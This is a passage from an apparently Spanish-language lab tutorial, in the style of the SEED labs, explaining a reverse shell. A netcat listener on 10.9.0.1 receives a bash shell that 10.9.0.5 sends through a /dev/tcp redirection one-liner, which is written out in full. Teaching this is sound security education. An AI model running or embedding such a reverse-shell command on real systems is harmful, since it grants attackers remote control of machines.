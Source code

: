 Para hacer que una shell \texttt{bash} de una máquina remota conecte con la máquina del atacante, el atacante necesita que haya un proceso en el sistema que este a la espera de una conexión entrante en un determinado puerto. En este ejemplo usaremos \texttt{netcat}. Este programa nos permite establecer un puerto de escucha para una conexión entrante.
En la demostración que sigue, se muestran dos ventanas, cada una pertenece a una máquina diferentes. La ventana que está arriba de todo es la máquina del atacante \texttt{10.9.0.1}, que ejecuta \texttt{netcat} (\texttt{nc} abreviado) y queda a la escucha en el puerto \texttt{9090}. La ventana de abajo es la máquina de la víctima \texttt{10.9.0.5} y ejecuta el comando para lanzar una shell reversa.
Al ejecutarse este comando, se observa como en la ventana de la máquina del atacante se establece la shell reversa que está corriendo en \texttt{10.9.0.5}.  

\begin{minipage}{\linewidth}
\begin{lstlisting}[backgroundcolor=]
           +---------------------------------------------------+ 
           | (*@\textbf{On 10.9.0.1 (attcker)}@*)                             |
           |                                                   | 
           | $ nc -lnv 9090                                    |  
           | Listening on 0.0.0.0 9090                         |  
           | Connection received on 10.9.0.5 49382             |  
           | $   <--+ (*@\textbf{This shell runs on 10.9.0.5}@*)              | 
           |                                                   |  
           +---------------------------------------------------+  
          
           +---------------------------------------------------+  
           | (*@\textbf{On 10.9.0.5 (victim)}@*)                              |
           |                                                   | 
           |$ /bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1  | 
           |                                                   | 
           +---------------------------------------------------+
\end{lstlisting}
\end{minipage}

A continuación se explica de forma sintética los comandos utilizados para la creación de la shell reversa.
Para una explicación mas en profundida puede consultar el libro de SEED.


